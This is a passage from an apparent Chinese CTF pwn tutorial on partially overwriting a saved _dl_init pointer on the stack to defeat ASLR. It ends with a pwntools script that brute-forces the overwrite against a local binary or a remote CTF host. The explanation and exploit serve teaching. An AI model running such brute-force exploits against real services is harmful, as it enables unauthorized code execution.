 而我们覆盖字节的时候必须覆盖整数倍个数，即至少会覆盖 3 个字节，而我们再来看看`__libc_start_main+240` 的地址 `0x7ffff7a2d830`，如果覆盖3个字节，那么就是 `0x7ffff700xxxx`，已经小于了 libc 的基地址了，前面也没有刻意执行的代码位置。

一般来说 libc_start_main 在 libc 中的偏移不会差的太多，那么显然我们如果覆盖 `__libc_start_main+240` ，显然是不可能的。

而 ld 的基地址呢？如果我们覆盖了栈上`_dl_init+139`，即为`0x7ffff700xxxx`。而观察上述的内存布局，我们可以发现`libc`位于 `ld` 的低地址方向，那么在随机化的时候，很有可能 libc 的第 3 个字节是为`\x00` 的。

举个例子，目前两者之间的偏移为

```
0x7ffff7dd7000-0x7ffff7a0d000=0x3ca000
```

那么如果 ld 被加载到了 `0x7ffff73ca000`，则显然 `libc` 的起始地址就是`0x7ffff7000000`。

因此，我们有足够的理由选择覆盖栈上存储的`_dl_init+139`。那么覆盖成什么呢？还不知道。因为我们还不知道 libc 的库版本是什么，，

我们可以先随便覆盖覆盖，看看程序会不会崩溃，毕竟此时很有可能会执行 libc 库中的代码。

```python
from pwn import *
context.terminal = ['tmux', 'split', '-h']
#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
elfpath = './gets'
context.binary = elfpath

elf = ELF(elfpath)
bits = elf.bits


def exp(ip, port):
    for i in range(0x1000):
        if args['REMOTE']:
            p = remote(ip, port)
        else:
            p = process(elfpath, timeout=2)
        # gdb.attach(p)
        try:
            payload = 0x18 * 'a' + p64(0x40059B)
            for _ in range(2):
                payload += 'a' * 8 * 5 + p64(0x40059B)
            payload += 'a' * 8 * 5 + p16(i)
            p.sendline(payload)
            data = p.recv()
            print data
            p.interactive()
            p.close()
        except Exception:
            p.close()
            continue


if __name__ == "__main__":
    exp('106.75.4.189', 35273)
```
